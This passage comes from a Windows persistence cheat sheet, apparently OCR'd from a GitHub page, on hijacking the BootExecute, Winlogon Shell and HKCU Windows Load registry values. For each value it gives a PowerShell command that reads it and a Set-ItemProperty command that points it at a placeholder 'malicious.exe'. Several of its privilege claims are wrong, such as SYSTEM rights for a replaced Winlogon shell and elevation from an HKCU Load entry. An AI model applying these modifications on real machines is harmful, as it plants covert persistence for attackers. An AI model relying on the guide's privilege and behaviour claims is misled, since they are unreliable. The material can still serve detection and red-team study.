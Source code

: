 #### BootExecute (Boot Process Hijacking)
   - Registry Path:
     - `HKLM\SYSTEM\CurrentControlSet\Control\Session Manager\BootExecute`
   - Purpose: Used to specify commands that are executed at system startup, usually related to defragmentation and system repair.
   - Abuse: By modifying this key, an attacker can execute arbitrary commands or binaries with SYSTEM privileges during the boot process.

   PowerShell Example to Check Value:
   ```powershell
   Get-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "BootExecute"
   ```

   PowerShell Example to Modify BootExecute:
   ```powershell
   Set-ItemProperty -Path "HKLM:\SYSTEM\CurrentControlSet\Control\Session Manager" -Name "BootExecute" -Value "C:\path\to\malicious.exe"
   ```

#### Winlogon Shell (Hijacking User Interface)
   - Registry Path:
     - `HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Shell`
   - Purpose: Defines the shell that is loaded when a user logs in (usually `explorer.exe`).
   - Abuse: An attacker can replace the default shell with a malicious program, which will execute with SYSTEM privileges when the user logs in.

   PowerShell Example to Check Value:
   ```powershell
   Get-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell"
   ```

   PowerShell Example to Modify Shell:
   ```powershell
   Set-ItemProperty -Path "HKLM:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon" -Name "Shell" -Value "C:\path\to\malicious.exe"
   ```

#### Load (Hijacking Processes at User Logon)
   - Registry Path:
     - `HKCU\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows\Load`
   - Purpose: Specifies programs to be run automatically when a user logs in.
   - Abuse: If this key is writable, an attacker can add malicious code to be executed at user login with elevated privileges.

   PowerShell Example to Check Value:
   ```powershell
   Get-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" -Name "Load"
   ```

   PowerShell Example to Add Malicious Entry:
   ```powershell
   Set-ItemProperty -Path "HKCU:\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Windows" -Name "Load" -Value "C:\path\to\malicious.exe"
   ```
